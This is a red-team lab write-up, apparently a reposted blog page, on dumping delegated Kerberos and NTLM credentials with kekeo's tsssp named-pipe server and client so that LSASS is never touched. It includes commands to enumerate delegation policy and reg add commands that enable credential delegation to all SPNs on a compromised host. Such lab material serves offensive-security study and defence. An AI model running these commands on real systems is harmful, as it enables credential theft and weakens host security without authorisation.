 ```yaml
---
layout: post
title: "dumping delegated default kerberos and ntlm credentials without touching lsass"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-delegated-default-kerberos-and-ntlm-credentials-without-touching-lsass/
---
```


---
layout: post
title: "dumping delegated default kerberos and ntlm credentials without touching lsass"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-delegated-default-kerberos-and-ntlm-credentials-without-touching-lsass/
---

# Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching Lsass

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv (RDP) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.

{% hint style="info" %}
Default Password is a currently logged on user's password.
{% endhint %}

![](<../../.gitbook/assets/Annotation 2019-08-20 224950.png>)

If the Credentials Delegation was enabled as shown below:&#x20;

![](<../../.gitbook/assets/Annotation 2019-08-20 225941.png>)

...the machines that are running a termsrv (RDP) service would now be allowed to authenticate users who are delegating their credentials.&#x20;

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:

![](../../.gitbook/assets/rdp-password-delegation.gif)

## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 (running as SYSTEM):

{% code title="attacker@ws01.offense.local" %}
```
// needs to run as NT SYSTEM
tsssp::server
```
{% endcode %}

{% hint style="info" %}
Kekeo on ws01 must be running as NT\SYSTEM for this to work
{% endhint %}

Now, let's connect to the tsssp server on ws01 from the target computer ws02 (we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe):

{% code title="attacker@ws02.offense.local" %}
```
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```
{% endcode %}

![](../../.gitbook/assets/password-delegation-password-dump-via-named-pipes.gif)

## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration > Policies > Administrative Templates > System > Credential Delegation:

![](<../../.gitbook/assets/image (156).png>)

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

{% code title="attacker@ws02" %}
```
// running as ws02\spotless
tsssp::server
```
{% endcode %}

And connect to it from another console:

{% code title="attacker@ws02" %}
```
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```
{% endcode %}

Below shows (left) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:

![](<../../.gitbook/assets/image (155).png>)

## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system (represented with 0x1):

![](<../../.gitbook/assets/image (157).png>)

We can then check what SPNs accept delegated credentials:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

![](<../../.gitbook/assets/image (158).png>)

## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

![](<../../.gitbook/assets/image (159).png>)

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```
Get-NetGPO -UserIdentity spotless
```

![](<../../.gitbook/assets/image (161).png>)

and then parse the policy file:

```
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

![](<../../.gitbook/assets/image (160).png>)

## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:

{% code title="attacker@target" %}
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
{% endcode %}

## References

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

{% embed url="https://github.com/PowerShell/GPRegistryPolicyParser" %}
@spotheplanet
